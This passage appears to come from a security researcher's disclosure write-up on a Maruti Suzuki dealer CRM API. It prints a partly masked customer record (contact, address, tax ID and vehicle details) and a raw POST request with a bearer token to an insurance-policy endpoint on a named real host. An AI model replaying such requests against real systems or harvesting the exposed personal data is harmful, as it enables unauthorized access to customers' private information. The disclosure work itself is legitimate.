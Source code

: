 ```
 
{"isCustomer":0,"error":false,"errors":null,"data":[{"customer":{"svocId":114153XXX,"title":"MRS","customerName":"REN**** JITE******","category":null,"emailId":"*****15@hotmail.com","mobileNo":"98501*****","recentMobileNo":"985011****","customerMobileDetails":{"mobileSale":"98501****","mobileSrv":"98501*****","mobileIns":"98501*****","mobileLoyl":"98501*****","mobileTv":"98501*****","mobileCc":"98501*****","mobileMds":"","mobileEnq":"985011****"},"dateOfBirth":"19**-05-**T00:00:00","age":"47","dateOfAnniversary":"20**-06-06T00:00:00","preferences":{"language":"HINDI","snack":null,"socialMedia":null,"day":null,"time":null},"occupation":"Service/Salaried","companyCode":"NA","companyName":"NOT AVAILABLE","gender":"Female","maritalStatus":"Married","loyaltyPointsBalance":601,"panNo":"######024A","licenseNo":"","tier":"Silver","residentialAddressSale":{"addressLine1":"B-56, ********","addressLine2":"**********, **** ROAD,","addressLine3":"BEH******HOTEL,****UD","stateDesc":"MAHARASHTRA","cityDesc":"PUNE","districtName":"Pune","villageName":null,"tehsilName":"Haveli","pinCode":411038},"customerTypeDesc":"Individual","gstNo":"###########ERED","monthlyHouseholdIncome":null,"personalAnnualIncome":null,"bankAccountNo":"","customerSegment":null,"socialAccounts":{"facebookId":null,"twitterId":null,"linkedinId":null,"instagramId":null},"householdId":null,"familyMemberCount":null,"complaintCount":9,"complaintOpenCount":9,"carEvaluationDetails":{"totalEvaluations":2,"totalEvalDoneByCustomer":9,"totalEvalDoneAndSoldToMSIL":0,"totalEvalDoneAndNotSoldToMSIL":2},"mood":"Bad","totalCarsOwnedFamily":null,"totalMulCarsOwnedFamily":null,"websitesSurfedByCustomer":null,"vehiclePurchaseFromTv":null,"upsellCrossSellOpportunity":"Will Buy EW - 5 Years\nWill spend High Amount on MSGA\nWill Buy Zero Dep MI with Add Ons","spendPattern":null,"servicePattern":null,"incomeLevel":"No ,"assetDetails":[{"assetNum":"MH12THXXXX","assetType":"VEHICLE","status":"ACTIVE","createdDate":"2021-03-23T19:08:19"},{"assetNum":"413820868","assetType":"INSURANCE","status":"ACTIVE","createdDate":"2022-03-10T15:03:01"},{"assetNum":"L2103R000637729","assetType
 ":"LOYALTY_CARD","status":"ACTIVE","createdDate":"2021-03-23T18:42:51"}],"vehicleDetails":[{"vinRegistrationNumber":"MH12THXXXX","vinNumber":"MA3ENGL1S0025XXXX","vinModelDescription":"S-CROSS","vinVariantDescription":"MARUTI S-CROSS SMART HYBRID ZETA 1.5L AT","fuelType":"PET","vinColorDescription":"PEARL ARCTIC WHITE","mcpNumber":null,"mcpNumberExpiryDate":null,"mcpExpiryMileage":null,"mcp
 Tier":null,"vinEwContractNumber":"2110874073","ewType":"III","ewExpiryDate":"2026-03-22T00:00:00","ewExpiryMileage":"100000","preferredDealerCode":"1908-19-02
 ","preferredDealerName":"XXXX","ccpTier":null,"ccpNumber":null,"ccpExpiryDate":null,"vehicleExpenditure":{"totalAccessoriesSpend":1497.1300000000001,"totalFreeServiceSpend":6330.5600000000004,"totalPmsServiceSpend":27035.450000000001,"totalAccidentalServiceSpend":9558,"totalMosServiceSpend":0,"totalOtherServiceSpend":1835.96},"totalInsuran
 ce":null,"ownershipStartAt":"2021-03-23T18:40:56","ownershipEndAt":"2099-12-31T00:00:00","vinCarUserName":"REN**** JITE****** BHO******","pullFactor":[{"name":"Extended Warranty","tier":"III","number":"2110874073","expiryDate":"22-Mar-2026","balance":"0.00"},{"name":"Loyalty Card","tier":"Silver","number":"L2103R000637729","expiryDate":"","balance":"601"}]}]} 
 ```

Observe the fields containing sensitive customer PII.. Some of the information we were able to access was contact details, address information, vehicle asset details etc.  This information was very handy while chaining different API calls.


### Customer Vehicle Insurance detials
Another API that I would like to highlight is `/api/insurance details/getpolicydetailsmarutinew`. Guessable from the name of the endpoint, this call allowed us to retrieve vehicle insurance details of Maruti Suzuki Customers. 

Request:

```
POST /api/insurance details/getpolicydetailsmarutinew HTTP/1.1 
Host: smr.dealercrm.co.in 
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 <TOKEN>

 
{"policyNo":"980000312401158973**","vinNo":"MA3EYD81S010129**"}
```
